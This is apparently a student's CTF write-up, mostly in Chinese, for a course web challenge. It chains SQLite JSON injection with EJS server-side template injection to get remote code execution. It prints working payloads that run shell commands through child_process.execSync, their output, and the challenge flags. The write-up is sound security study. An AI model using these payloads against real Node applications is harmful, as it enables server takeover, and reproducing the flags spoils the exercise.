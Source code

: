 ```yaml
---
title: Simple Web 0x42(2023 HW - Double Injection - FLAG2)
tags: [eductf, CTF, Web]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web 0x42(2023 HW - Double Injection - FLAG2)
## Background
Node JS ejs SSTI
## Source code
呈上題
## Recon
這一題想了很久，因為我沒有跟影片，想說應該都是跟去年差不多或是在臺科的網頁安全一樣，但其實相關的payload就是在講義上，花了一整天寫的我be like:
![](https://memeprod.ap-south-1.linodeobjects.com/user-template/7266c8627075418a7979b79481bf0f84.png)
基本上就是連接前一題的思緒，既然我們知道admin的password也就是FLAG1，那麼我們就可以用前一題的payload:
```!
admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- #
```
後面搭配簡單的XSS也是可以通的，原本想說可以利用XSS達到RCE，但就我之前和Kaibro的詢問，XSS應該沒有這麼powerful，所以我就往SSTI或command injection下手，後來經過@cs-otaku的提點才知道ejs有一個洞，也是上課有提到的SSTI控到RCE，當時看的文章是Huli大寫的，內容詳細說明了為甚麼會有這個洞以及該如何構造攻擊的payload，不過整體更複雜也算是需要客製化的題目才需要了解這麼多，這一題算是只要取得經典的payload就可以攻克，如果想要用動態看他跑得怎麼樣，可以用web storm跟，想知道整體的動態流程可以看[之前寫的文章](https://hackmd.io/@SBK6401/HkgkDNsPp)
## Exploit - Ejs SSTI RCE
* Payload 1:
    * Username: 
        ```!
        admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- # <%= global.process.mainModule.require("child_process").execSync("ls -al /").toString() %>
        ```
    * Password: `FLAG{sqlite_js0n_inject!on}`
    * Result:
        ```
        total	76	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	.	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	..	
        -rwxr-xr-x	1	root	root	0		Dec	18	18:54	.dockerenv	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	bin	
        drwxr-xr-x	5	root	root	340		Dec	18	18:54	dev	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	etc	
        -rw-r--r--	1	root	root	28		Dec	18	17:15	flag1.txt	
        -rw-r--r--	1	root	root	23		Dec	18	17:15	flag2-1PRmDsTXoo3uPCdq.txt	
        drwxr-xr-x	1	root	root	4096	Dec	18	17:15	home	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	lib	
        drwxr-xr-x	5	root	root	4096	Dec	7	09:43	media	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	mnt	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	opt	
        dr-xr-xr-x	497	root	root	0		Dec	18	18:54	proc	
        drwx------	1	root	root	4096	Dec	11	18:36	root	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	run	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	sbin	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	srv	
        dr-xr-xr-x	13	root	root	0		Dec	18	18:54	sys	
        drwxrwxrwt	1	root	root	4096	Dec	22	17:16	tmp	
        drwxr-xr-x	1	root	root	4096	Dec	18	13:27	usr	
        drwxr-xr-x	12	root	root	4096	Dec	7	09:43	var	
        ```
* Payload 2:
    * Username: 
        ```!
        admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- # <%= global.process.mainModule.require("child_process").execSync("cat /flag2-1PRmDsTXoo3uPCdq.txt").toString() %>
        ```
    * Password: `FLAG{sqlite_js0n_inject!on}`
    * Result: `FLAG{ezzzzz_sqli2ssti}`

Flag: `FLAG{ezzzzz_sqli2ssti}`

## 補充: How to debug it?
這邊示範如何用vscode debug這個project
1. 可以先看[這個文章](https://hackmd.io/@SBK6401/HkgkDNsPp)準備一些前置作業
2. 在文章中有提到，docker幫忙做的事情，現在要自己完成
    ```bash
    $ sudo touch /flag1.txt ; sudo chmod 777 /flag1.txt ; sudo echo "test" > /flag1.txt
    $ sudo node init-db.js ; sudo chmod 444 /etc/db.sqlite3
    ```
3. 接著就可以開始debug app.js了
## Reference
[CTF 中的 EJS 漏洞筆記](https://blog.huli.tw/2023/06/22/ejs-render-vulnerability-ctf/?ref=blog.splitline.tw)
[AIS3-EOF-CTF-2019-Quals - echo WP](https://github.com/CykuTW/My-CTF-Challenges/tree/master/AIS3-EOF-CTF-2019-Quals/echo)
[ejs RCE CVE-2022-29078 bypass](https://inhann.top/2023/03/26/ejs/)